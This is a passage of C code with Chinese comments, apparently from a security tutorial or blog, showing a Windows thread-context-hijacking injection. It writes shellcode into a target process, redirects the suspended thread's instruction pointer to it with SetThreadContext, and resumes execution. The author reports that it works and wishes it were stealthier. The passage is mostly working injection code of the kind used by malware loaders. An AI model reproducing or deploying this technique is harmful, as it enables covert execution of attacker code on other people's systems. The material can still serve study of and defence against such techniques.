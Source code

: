 ```c
        printf("Virtual alloc failed error code ：%d\n", (int)GetLastError());
        return 1;
    }
    // 显示出来申请区域的地址，方便调试的时候找
    printf("shellcode address is : %p\n", lpBuffer);

    // 将shellcode写进去，和远程进程注入一样
    if (!WriteProcessMemory(hProcess, lpBuffer, shellcode, sizeof(shellcode), NULL)) 
    {
        printf("Write process memory failed error code：%d\n", (int)GetLastError());
        return 1;
    }

    // 设置线程的上下文环境，让ip寄存器直接跳转
    CONTEXT ctx = { 0 };
    ctx.ContextFlags = CONTEXT_ALL;
    if (!GetThreadContext(pi.hThread, &ctx))
    {
        printf("GetThreadContext failed error code ：%d\n", (int)GetLastError());
        return 1;
    }
    // 设置ip寄存器直接指向那块地址
    ctx.Rip = (DWORD64)lpBuffer;
    
    // 设置保存线程环境
    if (!SetThreadContext(pi.hThread, &ctx))
    {
        printf("SetThreadContext failed error code ：%d\n", (int)GetLastError());
        return 1;
    }

    // 恢复线程环境，这时就可以执行shellcode了
    if (ResumeThread(pi.hThread) == -1) 
    {
        printf("ResumeThread failed error code ：%d\n", (int)GetLastError());
        return 1;
    }

    // 等待目标进程结束（这里可以直接从任务管理器关闭）
    WaitForSingleObject(pi.hProcess, INFINITE);

    // 清理恢复句柄释放空间
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);

    return 0;
}

```

经过验证发现是成功的，可以执行到shellcode的位置。但是缺点就是执行会创建一个新的线程，虽然在挂起的状态下前端不会有什么显示，但是还是不巧妙。
